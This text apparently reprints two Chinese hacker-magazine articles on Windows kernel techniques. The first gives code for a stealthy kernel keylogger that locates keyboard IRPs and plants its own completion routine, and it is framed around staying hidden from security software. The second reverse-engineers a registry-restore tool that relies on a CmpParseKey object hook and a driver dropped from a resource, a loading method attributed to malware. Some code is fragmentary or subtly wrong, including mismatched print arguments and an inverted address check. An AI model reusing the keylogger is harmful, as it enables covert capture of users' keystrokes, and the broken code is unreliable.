如上，`IrpSp = IoGetNextIrpStackLocation(Irp)`，即本驱动设置的完成例程是放在下一个驱动对应的 IO 栈单元中的。这里简单解释一下为什么微软要这么做：分层模型下最后一个驱动通常不需要完成例程；另外 IRP 的生成者有时需要在后续完成阶段介入，因此会把完成例程安装到下一个栈单元中。

为什么我们在获取到 IRP 之后不能直接用 `IoSetCompletionRoutine` 设置完成例程呢？例如当前栈单元已经是最后一个栈单元时，调用该宏可能覆盖 IRP 自身的数据结构；并且新设置的完成例程还可能根本不会被调用。为了便于理解，这里画一个 IRP IO 栈空间示意图，如图8所示。



图8

在这个简图中，`pSP` 是当前 IO 栈单元指针。若在这种状态下调用 `IoCompleteRequest` 完成 IRP，从 `pSP` 开始直到更高层安装的完成例程会被逐一调用；而调用 `IoSetCompletionRoutine` 新安装在 `pSP` 下一个栈单元的例程，可能不会被执行到。

考虑到上述原因，最终采取的方法是：在当前的 IO 栈单元中设置完成例程；如果已存在完成例程，则先保存以便后续恢复调用。类似代码如下。

```c
pSP = IoGetCurrentIrpStackLocation(pIrp);
uCompleteRoutineAddr = (ULONG)pSP->CompletionRoutine;
if (uOrgCompleteRoutine == 0) {
    uOrgCompleteRoutine = uCompleteRoutineAddr;
    if (uOrgCompleteRoutine == 0) {
        uOrgCompleteRoutine = IRPOrgComplete...;
    }
}
```

```c
RoutineNULL,
...
if (uCompleteRoutineAddr != (LONG)NewCompleteRoutine)
{
    InterlockedExchange((LONG*)&pSP->CompletionRoutine,
        (LONG)NewCompleteRoutine);
    if (uCompleteRoutineAddr == 0)
    {
        pSP->Context = 0;
        pSP->Control |= SL_INVOKE_ON_SUCCESS;
        pSP->Control |= SL_INVOKE_ON_ERROR;
    }
}
```

```c
KdPrintEx((xx, "[Work]Current IRP is NULL!\n"));
return;
...
pSP = IoGetCurrentIrpStackLocation(pIrp);
uCompleteRoutineAddr = (ULONG)pSP->CompletionRoutine;
if (uOrgCompleteRoutine == 0)
{
    // 记录原来的完成例程
    uOrgCompleteRoutine = uCompleteRoutineAddr;
    if (uOrgCompleteRoutine == 0)
        uOrgCompleteRoutine = IRPOrgCompleteRoutineNULL;
}
...
if (uCompleteRoutineAddr != (LONG)NewCompleteRoutine)
{
    InterlockedExchange((LONG*)&pSP->CompletionRoutine,
        (LONG)NewCompleteRoutine);
    if (uCompleteRoutineAddr == 0)
    {
        pSP->Context = 0;
        pSP->Control = 0;
        pSP->Control |= SL_INVOKE_ON_SUCCESS;
        pSP->Control |= SL_INVOKE_ON_ERROR;
    }
}
li.QuadPart = -5000;
KeDelayExecutionThread(KernelMode, FALSE, &li);
```

### 一个例子

在讨论了如何定位 IRP 以及如何安装完成例程以后，我们来学习一个完整例子的核心代码（这个完整的例子在附件中给出，读者可以到黑防官方网站下载）。

在这个例子中，使用了前述的方法，通过逆向工程挖掘出 IRP 的位置，抛弃传统 IRP Hook 对 IRP 拦截的方法。优点是显而易见的，即完全没有在某个固定地址处的 Hook，大大增加了隐蔽性。

首先是创建一个工作线程，不停地尝试获取排队中的 IRP，一旦获取到，就在这个 IRP 当前的 IO 栈单元中设置一个完成例程；如果之前已经有完成例程了，就保存并留在以后恢复调用。由于 IRP 是串行工作的，不用考虑并行的问题。

在经过上述原理讲解后，相信代码并没有什么难懂的地方了。

```c
VOID Work(PVOID StartContext)
{
    PDRIVER_OBJECT pDrvObj;
    PDEVICE_OBJECT pDevObj;
    LARGE_INTEGER li;
    PIRP pIrp;
    PIO_STACK_LOCATION pSP;
    ULONG pDevExt;
    ULONG uCompleteRoutineAddr;

    pDrvObj = GetKbdClassDrvObj();
    if (NULL == pDrvObj)
    {
        KdPrintEx((xx,"[Work]GetKbdClassDrvObj Failure!\n"));
        return;
    }

    pDevObj = pDrvObj->DeviceObject->NextDevice;
    pDevExt = (ULONG)pDevObj->DeviceExtension;
    while (true)
    {
        if (bDriverUnload == TRUE)
            return;

        if (*(ULONG*)(pDevExt+0x70) == pDevExt+0x70)
        {
            KdPrintEx((xx,"[Work]KeyboardClassDequeueRead Failure, No IRP in the Queue.\n"));
            li.QuadPart = -1000;
            KeDelayExecutionThread(KernelMode,FALSE,&li);
            continue;
        }

        // 从 IRP.Tail.Overlay.ListEntry 获得 IRP 地址
        pIrp = (PIRP)(*(ULONG*)(pDevExt+0x70)+0xffffffa8);
        if (pIrp == NULL)
            ...
    }
}
```

新的完成例程处理只是简单打印键盘记录，如下所示。

```c
NTSTATUS NewCompleteRoutine(
    IN PDEVICE_OBJECT DeviceObject,
    IN PIRP pIrp,
    IN PVOID Context
)
{
    PKEYBOARD_INPUT_DATA pBuf;
    pBuf = (PKEYBOARD_INPUT_DATA)pIrp->AssociatedIrp.SystemBuffer;

    KdPrintEx((xx,"[NewCompleteRoutine] Status:%s Information:%d Key:%04x\n",
        (pIrp->IoStatus.Status==STATUS_PENDING)?"pending":"success",
        pIrp->IoStatus.Information,
        (pBuf->Flags!=1)?"Make or else":"Break",
        pBuf->MakeCode));

    if (uOrgCompleteRoutine != IRPOrgCompleteRoutineNULL)
    {
        fnCompleteRoutine pOrgCompleteRoutine =
            (fnCompleteRoutine)uOrgCompleteRoutine;
        return pOrgCompleteRoutine(DeviceObject,pIrp,Context);
    }

    if (pIrp->PendingReturned)
        IoMarkIrpPending(pIrp);

    return STATUS_SUCCESS;
}
```

### 提高稳定性

在前一个例子中，不停地尝试获取排队中的 IRP，一旦获取到，就在这个 IRP 当前的 IO 栈单元中设置一个完成例程，之后在这个完成例程中获取键盘记录。优点前面已经说过了，隐蔽性很强。这种方法的缺点也是显而易见的，就是稳定性不够。当连续并十分快速敲击键盘的时候，将会发现有很少的几个记录没有被抓到。这主要取决于工作线程中等待函数所等待的时间长短，而这个参数并不好控制，理论上这个值越小越好，但这样将会消耗大量的 CPU 资源。我曾试过，在我的计算机上，一字不差地记录下所有键盘记录，大概会占用 5%～10% 的 CPU 资源。

如何提高稳定性呢？第一种方法是设计一种算法，毕竟漏记的键盘记录非常少，并且不是绝对不能“补回来”的，在漏记的大多数情况下，还是可以记录到键盘下、上两种动作中的一种记录。另一种方法，就是退而求其次，只需要在 IRP 开始完成的任何一个环节上 Hook 一个固定的函数就可以保证 100% 的稳定性了。

虽然第二种解决方案也是添加了固定的 Hook 点，但和传统的固定点 Hook 还是有很大区别的。首先，这个“固定” Hook 点并不固定，可以选择在 IRP 开始完成到 IRP 未被从链表中释放之前的任何一点。其次，这个“固定” Hook 点并不需要和 IRP 有任何关系，它唯一的作用只是为了获取代码控制权而已。Hook 这样一种不固定的“固定点”仍然具有相当强的隐蔽性。安全软件是否关注这些“无关紧要”的函数点，这并不难回答。

其实，我认为前一个例子的重要性并不在于直接使用它来获取键盘记录，而是提供了一种思想：通过数据挖掘定位到我们关心的 IRP，完全抛弃了传统 IRP 的拦截方法（比如 Hook 分发函数、Hook `IoCompleteRequest` 等）。至于如何利用它，那就取决于你的想象力了。

这里给出一个提高稳定性的例子，Hook `KeyboardClassDequeueRead`。由于思想已经在前面给出了，这里就不给出代码了。唯一需要注意的是如何找到 `KeyboardClassDequeueRead`，方法是先找到 `KeyboardClassServiceCallback`，再搜索特征码。而如何找到 `KeyboardClassServiceCallback`，网上有很多方法，这里提供一种最简单的硬编码方法，地址是 `[PVOID](*((ULONG*)(pDevExt+0xf8)))`（Win7 7600 下的硬编码）。至于为什么是这个值，大家可以尝试逆向一下 `i8042prt!I8042KeyboardIsrDpc` 这个函数。另外，这里的 `pDevExt` 也是 i8042prt 的一个 device 扩展。

### 总结

本文提供了一种全新的视角来获得键盘记录——从 IRP 中挖掘。由于键盘记录涉及的 IRP 是可以直接从系统中“搜”出来的，所以可以准确定位到 IRP，而不是通过 IRP 拦截技术。显而易见的优点是完全没有使用任何 Hook。定位到 IRP 之后，就可以通过设置一个完成例程来获得键盘记录了。随着 IRP 的生成与消亡，留下的键盘记录“痕迹”也被清除。希望通过本文能够给大家提供一种新的视角来重新审视键盘记录，能写出更好的安全软件。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：VC、驱动
- 关键词：内核编程、注册表、还原

## 用 Windows 内核编程来实现注册表还原保护


文/图 liuke_blue

现在很多家用计算机上都装有还原软件，比如：冰点还原精灵、Returnil 影子系统、360 网吧还原系统保护器等，特别是网吧的计算机，全部都装上了还原系统或者硬件还原卡、无盘启动等，其主要的目的就是为了保证计算机的安全，防止病毒、木马的入侵、破坏等。这是因为还原软件在系统重启后，恢复成原来的状态，不管病毒、木马做任何破坏、隐藏、替换等，一旦重启后，就彻底消失了。但是，这方面的公开资料比较少，大部分都是商业软件。前一阵子在网上溜达，看到一款注册表还原工具，一时手痒，就把它逆向了，并且通过逆向分析、调试等，自己按照此工具的还原保护原理写了一个同它几乎一样的工具，并且实现其相同的功能，不敢私藏，下面就把开发该工具的过程给黑防迷们详细介绍一下，希望大家从中得到帮助。

该注册表还原工具对 `HKEY_LOCAL_MACHINE\SYSTEM` 下的所有子项进行保护，所有读写在计算机重启后全部失效，软件示意图如图1所示。



图1

### 实现原理分析

通过分析，我发现该工具的实现原理如下：获取 `HKEY_LOCAL_MACHINE\SYSTEM` 的 Hive 文件句柄，将其加载恢复到注册表 `HKEY_USERS\.DEFAULT\Volatile` 下，通过 Object Hook 挂钩 `CmpParseKey` 函数（打开注册表必须要使用该函数）进行重定向。下面我通过 4 步来进行详细分析。

### 1. 如何得到 `HKEY_LOCAL_MACHINE\SYSTEM` 的 Hive 文件句柄，并加载恢复

注册表其实是由一些 Hive 格式的文件构成的，其对应的磁盘文件路径如下表所示。

| Hive（蜂巢）注册表路径 | Hive（蜂巢）磁盘文件路径 |
|---|---|
| HKEY_LOCAL_MACHINE\SYSTEM | \WINDOWS\system32\config\system |
| HKEY_LOCAL_MACHINE\SAM | \WINDOWS\system32\config\SAM |
| HKEY_LOCAL_MACHINE\SECURITY | \WINDOWS\system32\config\SECURITY |
| HKEY_LOCAL_MACHINE\SOFTWARE | \WINDOWS\system32\config\software |
| …… | …… |
| HKEY_USERS\.DEFAULT | \WINDOWS\system32\config\default |

还有一些就不在这里详细列举了。Hive 的格式是不公开的，这里不过多解释，有时间以后给大家介绍。这些注册表项其实是由操作系统通过读取磁盘的 Hive 文件加载进入注册表项，也就是对注册表的操作，其实就是对其对应的磁盘上的 Hive 文件的操作。这些 Hive 文件是被 system 进程独占打开的，通过 XueTr 工具查看，如图 2 所示。



图 2

从 system 里的句柄表中查询到类型为 `[file]` 的 `\WINDOWS\system32\config\system` 文件句柄，主要代码如下。

```c
VOID RestoreReg(PVOID Currentid)
{
    ...
    RtlInitUnicodeString(&szfile, L"File");
    RtlInitUnicodeString(&Hivename, RegHiveFileName);
    dwNeedsize = 0x1000;
    do {
        pool = ExAllocatePool(PagedPool, dwNeedsize);
        if (pool) {
            current_handle_info_pos = (ULONG)pool;
            status = NtQuerySystemInformation(SystemHandleInformation,
                pool, dwNeedsize, &ReturnLength);
        } else return NULL;
    } while (status == STATUS_INFO_LENGTH_MISMATCH);
}
```

```c
ExFreePoolWithTag(pool, 0);
dwNeedsize *= 2;
} while (status == STATUS_INFO_LENGTH_MISMATCH);

if (pool) {
    if (NT_SUCCESS(status)) {
        numofhandles = *(PULONG)current_handle_info_pos;
        nCount = 0;
        Object = ((ULONG)pool + 0xC);
        while (nCount < numofhandles) {
            PID = *(PDWORD*)(Object + 0x8);
            if (PID == *(PDWORD)Currentid) {
                filetype = (PUNICODE_STRING)(*(PDWORD*)(Object + 0x10) + 64);
                FileObject = (PULONG)Object;
                filename = (PUNICODE_STRING)(&FileObject->FileName);
                if (filename) {
                    if (RtlCompareUnicodeString(filename, &Hivename, TRUE)) {
                        status = ObOpenObjectByPointer(FileObject, 512, NULL, 0, 0, KernelMode, &regedit_software_fileHandle);
                        if (NT_SUCCESS(status)) {
                            status = ZwCreateKey((PHANDLE)(&Currentid), 0xF003F, &oa, 0, 0, 5, &current_handle_info_pos);
                            if (NT_SUCCESS(status)) {
                                status = ZwRestoreKey((HANDLE)Currentid, regedit_software_fileHandle, 8u);
                            }
                        }
                    }
                }
            }
            ...
        }
    }
}
```

```c
...
++nCount;
Object += 0x10;
...
while_break:
    ExFreePoolWithTag(pool, 0);
    return;
```

与原工具代码的区别是查询 Hive 文件的方式有所不同。原工具是通过判定未公开结构 CCB 中 Flag 的第 5 位存在（Windows XP 系统下其他文件该位为 0），来区别于其他文件，从而查询到 `\WINDOWS\system32\config\system` 文件，据说是采用 360 火牛 Mj001 的方法，系统兼容性不好，而且费事；真是舍近求远，直接通过文件名判断就可以。

#### 2. 如何通过 Object Hook 来 Hook `CmpParseKey` 函数

内核对象 Object 有很多，通过 WinObj 我们可以看到内核有以下对象，如图 3 所示。



图 3

我们利用 WinDbg 来看看 `OBJECT_HEADER` 的结构。

```c
nt!_OBJECT_HEADER
 +0x000 PointerCount      : Int4B
 +0x004 HandleCount       : Int4B
 +0x004 NextToFree        : Ptr32 Void
 +0x008 Type              : Ptr32 _OBJECT_TYPE
 +0x00c NameInfoOffset    : UChar
 +0x00d HandleInfoOffset  : UChar
 +0x00e QuotaInfoOffset   : UChar
 +0x00f Flags             : UChar
 +0x010 ObjectCreateInfo  : Ptr32 _OBJECT_CREATE_INFORMATION
 +0x014 SecurityDescriptor: Ptr32 Void
 +0x018 Body              : QUAD

nt!_OBJECT_TYPE
 +0x000 Mutex                 : _ERESOURCE
 +0x038 TypeList              : _LIST_ENTRY
 +0x040 Name                  : _UNICODE_STRING
 +0x048 DefaultObject         : Ptr32 Void
 +0x04c Index                 : Uint4B
 +0x050 TotalNumberOfObjects  : Uint4B
 +0x054 TotalNumberOfHandles  : Uint4B
 +0x058 HighWaterNumberOfObjects : Uint4B
 +0x05c HighWaterNumberOfHandles : Uint4B
 +0x060 TypeInfo              : _OBJECT_TYPE_INITIALIZER
 +0x0ac Key                   : Uint4B
 +0x0b0 ObjectLocks           : [4] _ERESOURCE

nt!_OBJECT_TYPE_INITIALIZER
 +0x000 Length : Uint2B
 ...
```

```c
+0x002 UseDefaultObject      : UChar
+0x003 CaseInsensitive       : UChar
+0x004 InvalidAttributes     : Uint4B
+0x008 GenericMapping        : _GENERIC_MAPPING
+0x018 ValidAccessMask       : Uint4B
+0x01c SecurityRequired      : UChar
+0x01d MaintainHandleCount   : UChar
+0x01e MaintainTypeList      : UChar
+0x020 PoolType              : _POOL_TYPE
+0x024 DefaultPagedPoolCharge    : Uint4B
+0x028 DefaultNonPagedPoolCharge : Uint4B
+0x02c DumpProcedure         : Ptr32 void
+0x030 OpenProcedure         : Ptr32 long
+0x034 CloseProcedure        : Ptr32 void
+0x038 DeleteProcedure       : Ptr32 void
+0x03c ParseProcedure        : Ptr32 long
+0x040 SecurityProcedure     : Ptr32 long
+0x044 QueryNameProcedure    : Ptr32 long
+0x048 OkayToCloseProcedure  : Ptr32 unsigned char
```

这些函数就是操作对象指定的对应方法，比如：打开、删除、解析、查询、安全描述符等。下面通过 Hook `CmpParseKey` 的代码，演示该位置是否可直接写入（不像 SSDT Hook 那样需修改 CR0 位）。

```c
ULONG InstallObjectTypeHook(BOOLEAN IsHook)
{
    OBJECT_ATTRIBUTES objAtt;
    UNICODE_STRING uObjName;
    NTSTATUS status;
    HANDLE KeyHandle;
    PVOID keyObject;
    BYTE* ParseProcedureOfObject;

    RtlInitUnicodeString(&uObjName, ObjectTypeName);
    InitializeObjectAttributes(&objAtt, &uObjName,
        OBJ_CASE_INSENSITIVE|OBJ_KERNEL_HANDLE, NULL, NULL);

    status = ObOpenObjectByName(&objAtt, NULL, KernelMode,
        NULL, 0, NULL, &KeyHandle);
    if (NT_SUCCESS(status)) {
        status = ObReferenceObjectByHandle(KeyHandle, 0x80000000u,
            NULL, KernelMode, (PVOID)&keyObject, 0);
        if (NT_SUCCESS(status)) {
            // OBJECT_TYPE+0x60 => OBJECT_TYPE_INITIALIZER
            // OBJECT_TYPE_INITIALIZER+0x3c => ParseProcedure (nt!CmpParseKey)
            ParseProcedureOfObject = (BYTE*)keyObject + 0x9C;
            if (MmIsAddressValid((DWORD*)ParseProcedureOfObject)) {
                ObfDereferenceObject(keyObject);
                ZwClose(KeyHandle);
                return status;
            }

            KdPrint(("CmpParseKey func addr=0x%x\n", (DWORD*)ParseProcedureOfObject));
            // 开始做 OBJECT HOOK
            if (IsHook) {
                __asm {
                    push eax
                    push ecx
                    mov ecx, ParseProcedureOfObject
                    mov eax, offset fake_CmpParseKey
                    xchg eax, [ecx]
                    mov Orig_CmpParseKey, eax
                    pop ecx
                    pop eax
                }
            } else {
                __asm{
                    push eax
                    push ecx
                    mov eax, Orig_CmpParseKey
                    mov ecx, ParseProcedureOfObject
                    xchg eax, [ecx]
                    pop ecx
                    pop eax
                }
            }
            ObfDereferenceObject(KeyObject);
            ZwClose(KeyHandle);
            return status;
        }
    }
}
```

#### 3. 如何在 `fake_CmpParseKey` 函数里进行重定位

主要就是如果注册表操作 `HKEY_LOCAL_MACHINE\SYSTEM\`，其实是转向 `HKEY_USERS\.DEFAULT\Volatile\`，所有读写都被重定向。

主要是对 `CmpParseKey` 函数的第六个参数 `CompleteName` 里的内容进行重新改写，让其指向 `HKEY_USERS\.DEFAULT\Volatile\` 内容，代码如下。

```c
NTSTATUS fake_CmpParseKey(
    IN PVOID ParseObject,
    IN PVOID ObjectType,
    IN OUT PACCESS_STATE AccessState,
    IN KPROCESSOR_MODE AccessMode,
    IN ULONG Attributes,
    IN OUT PUNICODE_STRING CompleteName,
    IN OUT PUNICODE_STRING RemainingName,
    IN OUT PVOID Context OPTIONAL,
    IN PSECURITY_QUALITY_OF_SERVICE SecurityQos OPTIONAL,
    OUT PVOID *Object)
{
    wchar_t ItemName[10];
    unsigned short fullnamelen;
    WORD name1Len;
    PVOID repoint_pool;
    ULONG name2Len;
    unsigned short poollen;
    unsigned int childlen;
    DWORD tmppos;
    ULONG repoint_len;
    DWORD CompleteName_;
    NTSTATUS status;
    ...
}
```

```c
{
    // 分配重定向缓冲区
    repoint_pool = ExAllocatePool(PagedPool, 0x40u);
    memcpy(repoint_pool, L"\\REGISTRY\\USER\\.DEFAULT\\Volatile\\", 0x40u);
    repoint_len = 0x00420040;
    goto Over;
}
else
{
    memcpy(ItemName, (void*)CompleteName->Buffer, itemlen);
    ItemName[itemlen >> 1] = 0;
    wcsupr(ItemName);
    name2Len = RtlCompareMemory(ItemName, L"SYSTEM\\", itemlen);
    ...
    return STATUS_REPARSE;
}

__asm{
    push eax
    push Object
    push SecurityQos
    push Context
    push RemainingName
    push CompleteName
    push Attributes
    push AccessMode
    push AccessState
    push ObjectType
    push ParseObject
    call Orig_CmpParseKey
    mov status, eax
    pop eax
}
return status;
```

将 `CompleteName` 内容替换后，再返回 `STATUS_REPARSE`，让 `CmpParseKey` 重新解析。这时解析的内容已经是替换后的内容；如果操作注册表项不是 `HKEY_LOCAL_MACHINE\SYSTEM\`，则不进行重定向，直接用原来的函数解析。并且 `HKEY_USERS\.DEFAULT\Volatile\` 下的所有内容是临时放在内存中，因此重启后内存也就清空了。

### 4. 将 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet` 映射成 symbolic link 类似的注册表

这一部分可以说用了我不少时间，我刚开始用 `ZwRestoreKey` 将 hive 文件 `\WINDOWS\system32\config\system` 恢复在……HKEY_USERS\\DEFAULT\\Volatile 下面，发现 HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet 下的子项全部丢失，百思不得其解。后来查资料发现，CurrentControlSet 的内容是在系统加载 Hive 文件时通过读取 ControlSetxxx 来写入的，在原有的磁盘上的 Hive 是没有的。因此我就明白了作者在其工具中为什么要将这部分映射成符号链接，具体代码请读者自行查看，我就不在这里贴出来了。我在调试的过程中发现，如果改成保护 HKEY_LOCAL_MACHINE\\Software，加载原始的 Hive 文件时，加载后的注册表项也会有丢失的现象。这时跟上面一样，由于系统在启动中、软件运行中，都会修改注册表 HKEY_LOCAL_MACHINE\\Software 里的项、值，因此会有所不同。

应用层我是用 masm32 汇编编写的，采用了机器狗加载驱动的方式，将驱动文件做成资源，然后释放资源，再加载驱动。原二黑也是这种方式，不过它还将自己的驱动随着开机启动自动运行的方式写入了注册表，因此系统一运行就会加载其驱动进行注册表还原保护。我觉得没必要，毕竟我们只是学习，其主要代码如下。

```asm
local @handle,@prc
local @mrc
local @hSCMan,@hService
invoke GetModuleHandleA,0
mov @handle,eax
invoke FindResourceA,@handle,1001,1001
or eax,eax
je over
mov @prc,eax
invoke SizeofResource,@handle,eax
mov syssize,eax
invoke LoadResource,@handle,@prc
or eax,eax
je over
invoke LockResource,eax
or eax,eax
je over
mov @mrc,eax
or eax,eax
invoke ExpandEnvironmentStrings,addr driverfile,addr szDriverPath,256
invoke CreateFileA,addr szDriverPath,GENERIC_WRITE,0,0,OPEN_ALWAYS,FILE_ATTRIBUTE_NORMAL,0
.if eax!=INVALID_HANDLE_VALUE
  mov @handle,eax
  invoke WriteFile,@handle,@mrc,syssize,addr lpNumberOfBytesWritten,0
  invoke SetEndOfFile,@handle
  invoke FlushFileBuffers,@handle
  invoke CloseHandle,@handle
  invoke OpenSCManagerA,0,0,0F003Fh
  or eax,eax
  je openscmfailed
  mov @hSCMan,eax
  invoke CreateServiceA,@hSCMan,addr drivername,addr drivername,0,1,3,0,addr szDriverPath,0,0,0,0,0
  mov @hService,eax
  .if eax==0
    invoke GetLastError
    .if eax==1073
      invoke OpenServiceA,@hSCMan,addr drivername,0F01FFh
      mov @hService,eax
      .if eax==0
        invoke CloseServiceHandle,@hSCMan
        jmp openscmfailed
      .endif
    .elseif
      invoke CloseServiceHandle,@hSCMan
      jmp openscmfailed
    .endif
  .endif
.endif
```

```asm
.if @hService
  invoke StartServiceA,@hService,0,0
  .if eax==0
    invoke GetLastError
    .if eax==1056
    .else
      invoke CloseServiceHandle,@hSCMan
      invoke CloseServiceHandle,@hService
      jmp openscmfailed
    .endif
  .endif
  invoke CloseServiceHandle,@hSCMan
  invoke CloseServiceHandle,@hService
.endif
invoke DeleteFileA,addr szDriverPath
xor eax,eax
inc eax
ret
openscmfailed:
invoke DeleteFileA,addr szDriverPath
xor eax,eax
ret
```

最后实现的效果示意图如图 4 所示。

